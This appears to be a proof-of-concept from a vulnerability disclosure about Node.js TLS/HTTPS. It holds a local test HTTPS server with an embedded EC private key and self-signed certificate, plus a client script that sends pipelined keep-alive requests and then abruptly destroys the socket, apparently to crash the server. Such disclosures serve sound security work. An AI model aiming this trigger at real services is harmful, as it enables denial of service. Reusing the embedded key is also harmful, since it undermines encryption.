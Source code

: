 Proof-of-Concept:

server.js:
```
const https = require('https');

const key = `-----BEGIN EC PARAMETERS-----
BggqhkjOPQMBBw==
-----END EC PARAMETERS-----
-----BEGIN EC PRIVATE KEY-----
MHcCAQEEIDKfHHbiJMdu2STyHL11fWC7psMY19/gUNpsUpkwgGACoAoGCCqGSM49
AwEHoUQDQgAEItqm+pYj3Ca8bi5mBs+H8xSMxuW2JNn4I+kw3aREsetLk8pn3o81
PWBiTdSZrGBGQSy+UAlQvYeE6Z/QXQk8aw==
-----END EC PRIVATE KEY-----`

const cert = `-----BEGIN CERTIFICATE-----
MIIBhjCCASsCFDJU1tCo88NYU//pE+DQKO9hUDsFMAoGCCqGSM49BAMCMEUxCzAJ
BgNVBAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEwHwYDVQQKDBhJbnRlcm5l
dCBXaWRnaXRzIFB0eSBMdGQwHhcNMjAwOTIyMDg1NDU5WhcNNDgwMjA3MDg1NDU5
WjBFMQswCQYDVQQGEwJBVTETMBEGA1UECAwKU29tZS1TdGF0ZTEhMB8GA1UECgwY
SW50ZXJuZXQgV2lkZ2l0cyBQdHkgTHRkMFkwEwYHKoZIzj0CAQYIKoZIzj0DAQcD
QgAEItqm+pYj3Ca8bi5mBs+H8xSMxuW2JNn4I+kw3aREsetLk8pn3o81PWBiTdSZ
rGBGQSy+UAlQvYeE6Z/QXQk8azAKBggqhkjOPQQDAgNJADBGAiEA7Bdn4F87KqIe
Y/ABy/XIXXpFUb2nyv3zV7POQi2lPcECIQC3UWLmfiedpiIKsf9YRIyO0uEood7+
glj2R1NNr1X68w==
-----END CERTIFICATE-----`

const options = {
  key: key,
  cert: cert,
};

https.createServer(options, function (req, res) {
  res.writeHead(200);
  res.end("hello world\n");
}).listen(4444);
```
---

poc.js:
```
const tls = require('tls')

var socket = tls.connect(4444, 'localhost', {rejectUnauthorized : false}, () => {
  console.log("connected")
  socket.write("GET / HTTP/1.1\r\nHost: localhost\r\nConnection: Keep-alive\r\n\r\n")
  socket.write("GET / HTTP/1.1\r\nHost: localhost\r\nConnection: Keep-alive\r\n\r\n")
  socket.write("GET / HTTP/1.1\r\nHost: localhost\r\nConnection: Keep-alive\r\n\r\n")
})


socket.on('data', () => {
  socket.destroy()
})  
```
